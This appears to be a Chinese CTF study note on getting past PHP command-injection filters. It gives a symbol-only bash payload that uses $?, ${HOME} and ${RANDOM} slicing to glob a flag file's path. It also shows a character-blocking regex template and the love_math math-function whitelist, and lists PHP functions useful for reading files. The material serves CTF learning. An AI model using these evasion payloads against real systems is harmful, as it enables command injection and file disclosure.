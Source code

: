

```
$?
用途：上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误。
```

```
root@npfs:~# echo ${#?}
1
```



### 过滤了#和PWD时

```
>payload: <A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

```php
 ## 过滤模板
 if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
```



PWD过滤了可以用HOME代替，`${HOME}`默认是`/root`，接下去我们只要再找到`1`来代替`${#SHLVL}`

```
$?
执行上一个指令的返回值 (显示最后命令的退出状态。0表示没有错误，其他任何值表明有错误)
```

fuzz下发现题目没有过滤`<`，所以我们利用`<A;`报错。从而使`$?`返回值为1



# 数学函数白名单过滤

```php
## 过滤模板  题目来源国赛 love_math
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
```

```
PHP函数：

scandir() 函数：返回指定目录中的文件和目录的数组。
base_convert() 函数：在任意进制之间转换数字。
dechex() 函数：把十进制转换为十六进制。
hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
var_dump() ：函数用于输出变量的相关信息。
readfile() 函数：输出一个文件。该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。
语法：readfile(filename,include_path,context)
```
